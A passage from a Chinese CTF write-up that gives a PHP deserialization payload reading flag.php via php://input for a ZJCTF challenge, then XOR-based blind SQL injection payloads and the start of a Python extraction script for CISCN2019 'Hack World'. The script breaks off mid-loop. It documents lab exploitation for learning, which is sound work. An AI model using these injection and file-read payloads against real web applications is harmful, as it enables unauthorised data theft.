然后构造payload

```php
<?php  

class Flag{  //flag.php  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
$a = new Flag();
echo serialize($a);
?>  
```

最终payload

```txt
/?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

# POST
welcome to the zjctf
```

## [CISCN2019 华北赛区 Day2 Web1]Hack World

fuzz过滤了哪些

![image-20210405194509099](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405194509.png)

472为没有过滤的。

使用异或注入

```php
id=0^1  # 回显  Hello, glzjin wants a girlfriend.
id=0^0  # 回显  Error Occured When Fetch Result.   
```

或者

```
id=1=((ascii(substr((select(flag)from(flag)),1,1))>3)=1)=1
```



![image-20210405194744632](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405194744.png)

写个脚本

```python
import requests
import time

url = "http://08512a1f-4397-4975-aca0-31e0cee5f259.node3.buuoj.cn/index.php"
i = 0
flag = ""
payload = '0^(ascii(substr((select(flag)from(flag)),{i},1))>{mid})'

while True:
    head = 0
    tail = 127
    i += 1

```